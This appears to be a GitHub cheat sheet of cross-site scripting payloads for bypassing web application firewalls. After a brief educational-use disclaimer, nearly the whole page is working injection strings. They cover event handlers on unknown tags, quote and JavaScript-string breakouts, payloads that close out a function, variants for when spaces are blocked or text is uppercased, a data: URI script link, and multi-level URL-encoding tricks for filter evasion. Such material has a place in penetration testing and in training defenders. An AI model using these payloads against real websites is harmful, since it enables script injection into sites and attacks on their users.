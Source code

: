 Warning
==============

All the information provided on this site is for educational purposes only.

The site or the authors are not responsible for any misuse of the information.

You shall not misuse the information to gain unauthorized access and/or write malicious programs.

These information shall only be used to expand knowledge and not for causing malicious or damaging attacks.

Did you break out of a tag and script, iframe, img, a, etc are all blocked by the WAF?
==============

Did they block onerror onload onclick? It is important to remember that the basic events work even with elements not part of html. Try something like this:
```html
<XXXXXXX ondblclick=prompt(1)>Some Text, Don't even care to end the tag either.
```
If you just need to break out for Proof of Concept and can't use a > to close your tag, this will utilize the " or ' in your injection depending on the developer's choice for the attribute you are breaking.
```html
" onclick="prompt(1)
' onclick='prompt(1)
```
WAF got you down? There are a ton of bypasses, look at HTML5 for more ideas also (Just remember IE vs Firefox and HTML5 support.
```html
<body onpageshow="prompt(123)">
<details open ontoggle="prompt('xss via toggle')">Toggle Me For More prompts</details>
<details/open/ontoggle="alert`1`">
<video onmouseenter=prompt(123)>
<video onwheel=prompt(123)>
<math><maction actiontype="statusline" 
xlink:href="http://www.aswsec.com/pen-test/x.svg">CLICKME<mtext></mtext></maction>
```
Here you will find a great resource: https://html5sec.org/

Here you will find more ideas:
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20injection

Don't forget the injection might not be a form tag but in the javascript.
==============
```html
";prompt(1);//

';prompt(1);//
```

What if they are in a function? Break out of it. Count the brackets, etc to kill the function.
```html
"};prompt(1);//
```
You may need to reconstruct the function
```html
"};prompt(1);function whatever(){//
```

Don't forget %0D%0A if you need a new line

Obscure Breakout
==============
```html
a'*prompt(123)*'
<script>
var a = 'a'*prompt(123)*'a';
var b = "a"*prompt(456)*"a";
</script>
```
```
http://yourtarget/whatever?a=<a &a= onclick=prompt(123) &a= >adsf
```
That would render potentially
```html
<a , onclick=prompt(123) , >asdf
```
Event Handlers You Should Investigate to bypass WAF
==============
https://www.w3.org/TR/html52/single-page.html

When you can't use spaces
==============
```html
<details/open/ontoggle=prompt(123)>
```
When the text is forced UPPERCASE
==============
```html
<IMG SRC=1 ONERROR=&#X61;&#X6C;&#X65;&#X72;&#X74;(1)>
```
Just for fun
==============
```html
<a/href="data:text/html;charset=utf-8,<script>alert(123)</script>">Just Interesting</a>
```
Internet Explorer can be your friend
==============
A lot of times you will notice that " or ' has become %22 or %27 in Chrome, Firefox, Opera etc. But did you try Internet Explorer. Many times you can get an Internet Explorer only XSS due to how the browser works.

Interesting XSS
==============
```html
<xxxxxx onmouseover=confirm(/Mouse&nbsp;Test&nbsp;It/.source)>Example 123

```
Just a few things to remember
==============
```
%3c -- <
%3e -- >
%2b -- + (this is important for sql injection)
%26%2360; -- <
%26%2362; -- >
\u003C -- <
\x27 -- '
%26lt; or %26lt -- <
%26gt; or %26gt -- >
```
Double Encoding Example
```
%253c
```
Triple Encoding
```
%25253c
```
